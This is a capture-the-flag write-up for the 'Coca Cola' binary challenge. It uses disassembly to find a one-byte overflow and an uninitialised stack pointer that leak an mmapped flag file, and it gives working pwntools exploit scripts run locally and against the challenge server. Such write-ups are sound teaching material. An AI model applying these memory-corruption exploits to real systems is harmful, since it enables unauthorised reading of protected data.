







# Coca Cola

> Catch the Wave. Coke!
>  
> nc ctf.pwn.sg 4001
>  
> Creator - amon (@nn_amon)

### What's flag_page

When we connected to the server, an illustration of a coke can was printed.



We were also given a binary called `./cocacola`. It is not stripped - perfect for dynamic analysis.
```
➜  cocacola git:(master) ✗ file cocacola
cocacola: ELF 64-bit LSB pie executable x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=76986b77e7025662406398594dd7c100f7e35c16, not stripped
```

When we ran the local copy of the binary, we expected the same output that we got from the server. However, we got the following error.

```
➜  cocacola git:(master) ✗ ./cocacola
Error getting the file size: Bad file descriptor
```

We decided to see what function gave us said error. According to Radare2, the culprit was `<main>`.
```
[0x00000ecd]> / Error getting
Searching 13 bytes in [0x0-0x128c]
hits: 1
Searching 13 bytes in [0x201dc8-0x211800]
hits: 0
0x00001080 hit1_0 .: %sflag_pageError getting the file size.
[0x00000ecd]> psz @0x00001080
Error getting the file size
[0x00000ecd]> axt @0x00001080
main; const char *s 0xe8d [STRING] lea rdi, qword str.Error_getting_the_file_size
[0x00000ecd]>
```

We decided to take a peak at the control flow graph leading to the error.



According to the disassembly, the program opens a file called `flag_page` with `<open>`. The file descriptor pointing to said file is stored in a variable we named `fd_for_flag_page`. It is in location `rbp-0xb4` of the stack frame.

```
|           0x00000e38      488d3d370200.  lea rdi, qword str.flag_page ; 0x1076 ; "flag_page" ; const char *path
|           0x00000e3f      b800000000     mov eax, 0
|           0x00000e44      e8d7fbffff     call sym.imp.open           ; int open(const char *path, int oflag)
|           0x00000e49      89854cffffff   mov dword [fd_for_flag_page], eax
```

It then copies the file's information to a buffer in memory using `<fstat>`. If said function returns -1, it prints out the same error we received.

```
|           0x00000e71      488d9560ffff.  lea rdx, qword [flag_page_file_description]
|           0x00000e78      8b854cffffff   mov eax, dword [fd_for_flag_page]
|           0x00000e7e      4889d6         mov rsi, rdx                ; void *buf
|           0x00000e81      89c7           mov edi, eax                ; int fildes
|           0x00000e83      e838010000     call sym.fstat              ; int fstat(int fildes, void *buf)
|           0x00000e88      83f8ff         cmp eax, 0xff
|       ,=  0x00000e8b      7516           jne 0xea3
|       |   0x00000e8d      488d3dec0100.  lea rdi, qword str.Error_getting_the_file_size ; 0x1080 ; "Error getting the file size" ; const char *s
|       |   0x00000e94      e897fbffff     call sym.imp.perror  
```

According to `<fstat>` man pages, an error code of -1 (ie `0xffffffff`) is returned when `<fstat>` fails to copy the file's information, regardless of reason. Without `flag_page`, it is not surprising that `<fstat>` returned -1. One cannot get the file information from a non-existant file. We created a file with the matching name and gave an arbitrary flag value.
```
➜  cocacola git:(master) ✗ touch flag_page
➜  cocacola git:(master) ✗ echo CrossCTF{Hi} > flag_page
➜  cocacola git:(master) ✗ cat flag_page
CrossCTF{Hi}
➜  cocacola git:(master) ✗
```

After creating the file, the local binary ran without the error `"Error getting the file size: Bad file descriptor"`.
```
➜  cocacola git:(master) ✗ ./cocacola
Do you want to flip the flag switch? (y/n)
[...]
```

From the name of the file, we deduced that it was *possible* that its contents contained the value of the flag. Why else would that file be essential to the program?

### Looking at the contents of flag_page

Given that `<fstat>` did not return an error, the following chunk of instructions got executed.



First to be executed was `<mmap>`.

> The contents of a file mapping (as opposed to an anonymous mapping; see MAP_ANONYMOUS below), are initialized using length bytes starting at offset offset in the file (or other object) referred to by the file descriptor fd. offset must be a multiple of the page size as returned by sysconf(\_SC_PAGE_SIZE).
>  
> -- [mmap man pages](https://www.mankier.com/2/mmap#Synopsis)


It essentially copies the contents of `flag_page` into address `0x700b1000`. In hindsight, this part of the program was the key to solving the challenge.

```
|      |`-> 0x00000ea3      488b4590       mov rax, qword [length_arg_to_mmap]
|      |    0x00000ea7      4889c6         mov rsi, rax
|      |    0x00000eaa      8b954cffffff   mov edx, dword [fd_for_flag_page]
|      |    0x00000eb0      488b8550ffff.  mov rax, qword [addr_0x700b1000]
|      |    0x00000eb7      41b900000000   mov r9d, 0
|      |    0x00000ebd      4189d0         mov r8d, edx
|      |    0x00000ec0      b901000000     mov ecx, 1
|      |    0x00000ec5      ba01000000     mov edx, 1
|      |    0x00000eca      4889c7         mov rdi, rax
|      |    0x00000ecd      e8cefaffff     call sym.imp.mmap           ; mmap(0x700b1000, length_arg_to_mmap, PROT_READ, MAP_SHARED, fd_for_flag_page, 0)
```

In case you do not know where `PROT_READ` and `MAP_SHARED` came from, take note that the Synopsis of `<mmap>`'s man pages includes the line `#include <sys/mman.h>`. We got the values from [this Github page](https://github.com/freebsd/freebsd/blob/master/sys/sys/mman.h) showing the source code for `sys/mman.h`.



(Note that there were also sources ([like this](http://unix.superglobalmegacorp.com/Net2/newsrc/sys/mman.h.html)) stating `#define PROT_EXEC 1`. `PROT_EXEC` mapped memory is also readable according to lines 78 to 97 of [Linus Torvald's GitHub page](https://github.com/torvalds/linux/blob/master/mm/mmap.c). Regardless of whether the argument value `0x1` represents `PROT_EXEC` or `PROT_READ`, the mapped memory is still readable.)

### How could the program leak flag_page's content?

Our goal was to read the contents at memory address `0x700b1000`. After `<mmap>` was called, the program asked "Do you want to flip the flag switch? (y/n) ", and *accepted 2 characters* as input. That input was stored in a variable called `flag` at memory address `0x2117fd`. It offered no direct way of reading the contents at memory address `0x700b1000`. (We later realised that the variable `flag` and the input of 2 characters played an instrumental role in winning the challenge).
```
|      |    0x00000ed9      488d3dc00100.  lea rdi, qword str.Do_you_want_to_flip_the_flag_switch___y_n ; 0x10a0 ; "Do you want to flip the flag switch? (y/n) " ; const char *format
|      |    0x00000ee0      b800000000     mov eax, 0
|      |    0x00000ee5      e8c6faffff     call sym.imp.printf         ; int printf(const char *format)
|      |    0x00000eea      488d050c0921.  lea rax, qword obj.flag     ; 0x2117fd
|      |    0x00000ef1      4889c6         mov rsi, rax
|      |    0x00000ef4      488d3dd10100.  lea rdi, qword [0x000010cc] ; "%2s"
|      |    0x00000efb      b800000000     mov eax, 0
|      |    0x00000f00      e83bfbffff     call sym.imp.__isoc99_scanf
```

We focused on the 2 functions - `<sym.coca>` and `<sym.cola>`. Because `<sym.coca>` was invoked first, we looked at said function first. `<sym.coca>` was responsible for printing the cocacola art.

```
|           0x00000bb8      31c0           xor eax, eax
|           0x00000bba      488d05ff1420.  lea rax, qword [coca_cola_art ; obj.art ; 0x2020c0
|           0x00000bc1      4889c7         mov rdi, rax                ; const char *s
|           0x00000bc4      e8b7fdffff     call sym.imp.puts           ; int puts(const char *s)
```

It then asked for 255 characters as input. The input was stored in a buffer located in memory address `rbp-0x110`.

```
|           0x00000bc9      488d85f0feff.  lea rax, qword [local_110h]
|           0x00000bd0      baff000000     mov edx, 0xff               ; size_t nbyte
|           0x00000bd5      4889c6         mov rsi, rax                ; void *buf
|           0x00000bd8      bf00000000     mov edi, 0                  ; int fildes
|           0x00000bdd      e8defdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)s
```

Then came the interesting part. It would read 1 character into a variable literally called `something` only if a variable by the name of `flag_denied` was equal to the value `0xc5`.

```
|           0x00000be2      488d05150c21.  lea rax, qword obj.flag_denied ; 0x2117fe
|           0x00000be9      0fb600         movzx eax, byte [rax]
|           0x00000bec      3cc5           cmp al, 0xc5
|           0x00000bee      7519           jne 0xc09
```



Hold up. What variable is called `flag_denied`?? We didn't see any in our analysis so far. Since we conducted a linear analysis from the beginning of the `<main>` function, we knew that this was the first time `flag_denied` was referenced. We were not yet sure of the significance of this conditional branch, but we were just curious why it even existed. It would only make sense if we could somehow control the value of `flag_denied`, yet there was explicit method of setting its value. However, radare2 pointed out that the address of `flag_denied` was `0x2117fe`. It meant nothing by itself, but when we compared its address to the variable `flag` (which was `0x2117fd`), it dawned on us that the second of the two characters input into `flag` would overflow into `flag_denied`. For instance, if our input was `"\x41\xc5"`, `flag` would have the value `"\x41"`, and `flag_denied` would have the value `"\xc5"`. 

Now we were curious to see what the variable `something` did. We looked for references to said variable.
```
[0x00000da0]> axt @obj.something
sym.coca 0xbf5 [DATA] lea rax, qword obj.something
sym.cola 0xc7c [DATA] lea rax, qword obj.something
```

One reference was in `<sym.coca>`. It was the one we saw. The other was in the function `<sym.cola>`. We put our analysis of `<sym.coca>` on hold, and focused on the reference `<sym.cola>` made to `something`.



From the screenshot of the disassembly above, we know that if `something` is *not* equal to `0x0`, it initialises the following memory addresses in `<sym.cola>`'s stack frame with the following string values:
```
[rbp - 0x50] = "Limited "
[rbp - 0x48] = "Edition "
[rbp - 0x40] = "Coca Col"
[rbp - 0x38] = "a - Prod"
[rbp - 0x30] = "uct of M"
[rbp - 0x28] = "exic"
[rbp - 0x24] = "o"
[...]
[rbp - 0x18] = "Invalid internal error."
```
In other words, if `something == 0x0`, the parts of the stack memory above remain as garbage values left over from the previous function. This is because when a function returns, or when a function gets called, only the stack and base pointers remain unchanged. The values of the memory itself remain unchanged. (The significance of this finding only became apparent after we drew the link between `<sym.coca>` and `<sym.cola>`, but that occured only way better.)

While we were analysing `<sym.cola>`, we were intrigued by how it checks if either `flag == 0x44` (ie hex for ascii "D") or `local_18h != 0x0`, a string pointed to by pointer variable `local_18h`(which is located in memory address `rbp - 0x18` of `<sym.cola>`'s stack frame) gets printed. 



Said string would only be the error message "Invalid internal error." if `something != 0x0`. So, if `something == 0x0`, what could be the string that gets printed? We knew that if `something == 0x0`, the values of the stack frame of `<sym.cola>` would simply be the garbage values left over from when the same memory addresses were the stack frame of `<sym.coca>`. If somehow we were in control of the input into `<sym.coca>`'s stack frame that corresponds to the memory address of `<sym.cola>`'s `local_18h` pointer variable, we could choose what string gets printed. To see if we could, we drew and compared  `<sym.coca>` 's stack diagram to `<sym.cola>`'s. We know that they have the `rbp` as both are called by the same function - `<main>`.
```
		<sym.coca>
		------------------------			
rbp-0x110	|	local_110h	|			
.		|			|			
.		|			|			
.		|			|			
		|			|			<sym.cola>
		|			|			-------------------------
rbp-0x60	|			|			|	local_60h	|
		|			|			-------------------------
rbp-0x58	|			|			|	local_58h	|
.		|			|			-------------------------
.		|			|			|			|
.		|			|			|			|
		|			|			|			|
		|			|			-------------------------
rbp-0x18	|			|	---->		|	local_18h	|
.		-------------------------			-------------------------
rbp-0x10	|			|			|			|
		-------------------------			|			|
rbp-0x8		|	local_8h	|			|			|
		-------------------------			|			|
rbp		|			|			|			|
		-------------------------			-------------------------
```

We knew that `<sym.coca>` reads `0xff` number of characters into buffer `local_110h`. It would write bytes into memory addresses `rbp - 0x110` to `rbp - 0x11`. That is able to overwrite the memory value at location `rbp - 0x18`. This confirmed that we could control the error message that was printed. 

In essence, we could choose what string we wanted `<sym.cola>` to print by giving a pointer as input to `<sym.coca>`. It was an indirect format string  attack.  We could now print the contents of the server's secret file - `flag_page` by making the pointer variable `local_18h` point to memory address `0x700b1000`. If you forgot, memory at that address was mapped by `<mmap>` and initialised with the contents of `flag_page`.

### Exploiting the vulnerability (locally)

In order to get the flag, our first input (to the question on whether we want to flip the flag switch) was `"D\xc5"`. That way, the boolean statements - `flag == 'D'` and `flag_denied == \xc5` - are true. Our second input (after the cocacola can was printed) was `"aaaa[...]\x00\x00\x00\x00\x00\x10\x0b\x70"` where the padding ("aaaa[...]") was 248 characters large. Our third input was `"\x00"` to make the boolean statement `something == 0x0` true.

```
from pwn import *

r = process('./cocacola')

r.recvuntil('Do you want to flip the flag switch? (y/n) ')
r.send('D\xc5')

r.clean(4)

string = "a" * 248 + p64(0x700b1000)

r.send(string)	

r.send('\x00')	#set something to 0x0

print r.recvall()
```

We created the file `flag_page` with a fake flag: `"CrossCTF{Hi}"`.
```
➜  cocacola git:(master) ✗ cat flag_page 
CrossCTF{Hi}
```

When we ran the exploit script above, we expected to see `"CrossCTF{Hi}"` printed out as the error string.
```
➜  cocacola git:(master) ✗ python2 soln_to_coca_cola.py
[+] Starting local process './cocacola': pid 14077
[+] Receiving all data: Done (2.03KB)
[*] Process './cocacola' stopped with exit code 0 (pid 14077)

[...]

Here's your randomly generated coke can!
Version: V.7016996765293437281
Serial Number: 865616705
Title: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Errors were found.
Error: CrossCTF{Hi}

Did you get it? If not try again.

```

We successfully read the contents of `flag_page`. Now, we had to do it on the server. In case you are wondering, the `"aaa[...]aaa"` printed as the title came from our second input.

### Exploiting the vulnerability (remotely)

To communicate with the remote server, we changed just 1 line of code.
```
#r = process('./cocacola')
r = remote('ctf.pwn.sg', 4001)
```

To our dismay however, when the exploit script ran, we did not receive any flag. We only received a bunch of `"C"`s. 
```
Here's your randomly generated coke can!
Version: V.7016996765293437281
Serial Number: 701089889
Title: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Errors were found.
Error: CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
Did you get it? If not try again.
```

There was no way our exploit script was wrong because it worked on the local binary which is identical to the one running on the server. Since `"C"` was the first character of the flags - "CrossCTF{...}" - we hypothesized that perhaps it was the file on the server that stored the flag differently. We guessed that the contents of the server's `flag_page` looked something like this:
```
CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC\x00
rrrrrrrrrrrrrrrrrrrrrrrrrrrrrrr\x00
ooooooooooooooooooooooooooooooo\x00
sssssssssssssssssssssssssssssss\x00
sssssssssssssssssssssssssssssss\x00
CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC\x00
TTTTTTTTTTTTTTTTTTTTTTTTTTTTTTT\x00
FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF\x00
[...]
```
With the NULL pointers, the file's content would be split into separate strings. Thus, when we printed the string at `0x700B1000`, only "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC\x00" was printed. 

We added a Python script - `prepare_flag_page.py` - to prepare the contents of our local `flag_page` in the same format stated above. We expected the output to be the same when we ran `soln_to_coca_cola.py` on our local `./cocacola`. And it was the same. :)

```
Here's your randomly generated coke can!
Version: V.7016996765293437281
Serial Number: 667066425
Title: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Errors were found.
Error: CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
Did you get it? If not try again.
```

We hypothesized that each character of the flag was 32 characters apart. We modified our Python script to print the first 9 characters of the the server's `flag_page`. 

```
from pwn import *


for i in range(9):
	#r = process('./cocacola')
	r = remote('ctf.pwn.sg', 4001)

	r.recvuntil('Do you want to flip the flag switch? (y/n) ')
	r.send('D\xc5')

	r.clean(4)

	string = "a" * 248 + p64(0x700b1000 + 30 + (i * 32))

	r.send(string)	

	r.sendline('\x00')	#set something to 0x0

	print r.recvall()
```

After we ran the script, we had the following output. Our hypothesis was correct.

```
[...]
Error: C
[...]
Error: r
[...]
Error: o
[...]
Error: s
[...]
Error: s
[...]
Error: C
[...]
Error: T
[...]
Error: F
[...]
Error: {
```

We were certain that if we went further, we would get the entire flag. We didn't know how long the flag was, but we knew it ends with `"}"`. So, we modified the script to print all the characters until `"}"` was reached. It is the file `soln_to_coca_cola.py`. After we ran the script, we had to following output. That was the flag. :)
```
➜  cocacola git:(master) ✗ python2 soln_to_coca_cola.py
[+] Printing flag: : Printed: CrossCTF{ment0s_th3_fre5h_ma4k3r}
```

